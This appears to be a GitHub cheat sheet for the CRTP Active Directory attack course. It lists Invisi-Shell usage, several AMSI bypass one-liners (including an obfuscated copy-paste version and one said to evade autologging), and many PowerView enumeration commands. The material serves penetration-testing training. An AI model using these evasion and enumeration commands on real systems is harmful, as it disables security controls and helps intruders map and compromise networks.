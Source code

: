 # CRTP_Skid
Commands and reference material useful for the CRTP course and Active Directory post-exploitation.

- [CRTP AD Attacks](#CRTP-Skid)
  - [Shell Prep & Defense Evasion](#Shell-Prep-&-Defense-Evasion)  
    - [Invisi-Shell](#Invisi-Shell)
    - [AMSI Bypass](#AMSI-Bypass)
  - [Domain Enumeration](#Domain-Enumeration)  
    - [Powerview](#Powerview)
      - [Domain](#Domain-Enum)
      - [Domain Trust](#Domain-Trust)
      - [Users Groups Computers](#Users-Groups-Computers)
      - [Share Enum](#Share-Enum)
      - [GPO](#Group-Policy-Objects)
      - [Access Control Lists](#Access-Control-Lists)
    - [AD PowerShell Module](#Active-Directory-PowerShell-Module)

## Shell Prep & Defense Evasion

### [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell)
Invisi-Shell is used in the labs to bypass PowerShell security features by hooking .NET assemblies. Invisi-Shell a batch file for execution (two batch files dependant on current privilege level) that reference the invisi-shell DLL. Note - Invisi-shell may break certain functionality of certain programs run within shell.
```powershell
C:\Path\RunWithRegistryNonAdmin.bat 
C:\Path\RunWithPathAsAdmin.bat
```
### AMSI Bypass 
More AMSI Bypass techniques [here](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)

#### ‘Plain’ AMSI bypass example:
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
#### Obfuscation example for copy-paste purposes:
```powershell
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
#### Another bypass, which is not detected by PowerShell autologging:
```powershell
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
```
## Domain Enumeration 
### Powerview 
Powerview is referenced quite a bit in the course material, but the Microsoft-signed AD PowerShell Module can also be used and will typically evade AV sigs where PowerView may not if using an unmodified version. 

#### Domain Enum

```powershell 
Get-NetDomain
Get-NetDomain -Domain <domainname>
Get-DomainSID
Get-DomainPolicy (Get-DomainPolicy)."System Access" net accounts
```
#### Domain Trust

```powershell 
Get-NetDomainTrust
Get-NetForest
Get-NetForestDomain
Get-NetforestDomain -Forest <domain name>
Get-NetForestCatalog
Get-NetForestCatalog -Forest <domain name>
Get-NetForestTrust
Get-NetForestTrust -Forest <domain name>
Get-NetForestDomain -Verbose | Get-NetDomainTrust
```
#### Users Groups Computers 
```powershell 
Get-NetDomainController
Get-NetDomainController | select-object Name
Get-NetUser
Get-NetUser -Username <username>
Get-NetUser | select samaccountname
Get-NetUser | select samaccountname, lastlogon, pwdlastset
Get-NetUser | select samaccountname, lastlogon, pwdlastset | Sort-Object -Property lastlogon
Get-NetUser | select samaccountname, memberof
get-userproperty -Properties pwdlastset
Find-UserField -SearchField Description -SearchTerm "built"
Get-netuser | Select-Object samaccountname,description
Get-NetComputer
Get-NetComputer -FullData
Get-NetComputer -Computername <computername> -FullData
Get-NetComputer -OperatingSystem "*Server 2016*"
Get-NetComputer -fulldata | select samaccountname, operatingsystem, operatingsystemversion
Get-NetGroup
Get-NetGroup -GroupName *admin*
Get-NetGroup -Domain <domain>
Get-NetGroupMember -Groupname "Domain Admins" -Recurse
Get-NetGroupMember -Groupname "Domain Admins" -Recurse | select MemberName
Get-NetGroup -Username <username>
Get-NetlocalGroup -Computername <computername> -ListGroups
Get-NetlocalGroup -Computername <computername> -Recurse
Get-NetLoggedon -Computername <computername>
Get-LoggedonLocal -Computername <computername>
Get-LastLoggedOn -ComputerName <computername>
```
#### Share Enum

```powershell 
Invoke-ShareFinder -Verbose
Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC
Invoke-FileFinder -Verbose
Get-NetFileServer
```
#### Access Control Lists

```powershell 
Get-ObjectACL -SamAccountName <accountname> -ResolveGUIDS
Get-ObjectACL -ADSprefix ‘CN=Administrator,CN=Users’ -Verbose
Get-PathAcl -Path \\<Domain controller>\sysvol
Invoke-ACLScanner -ResolveGUIDs
Invoke-ACLScanner -ResolveGUIDs | select IdentityReference, ObjectDN, ActiveDirectoryRights | fl
Invoke-ACLScanner | Where-Object {$_.IdentityReference –eq [System.Security.Principal.WindowsIdentity]::GetCurrent().Name}
```

#### Group Policy Objects 

```powershell 
Get-NetGPO
Get-NetGPO -Computername <computername>
Get-NetGPOGroup
Find-GPOComputerAdmin -Computername <computername>
Find-GPOLocation -Username user -Verbose
Get-NetOU -Fulldata
Get-NetOU StudentMachines | %{Get-NetComputer -ADSPath $_}
Get-NetGPO -GPOname "{<gplink>}"
```

#### Active Directory PowerShell Module
[Microsofts AD PowerShell](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps) module can also be used for domain enumeration. 

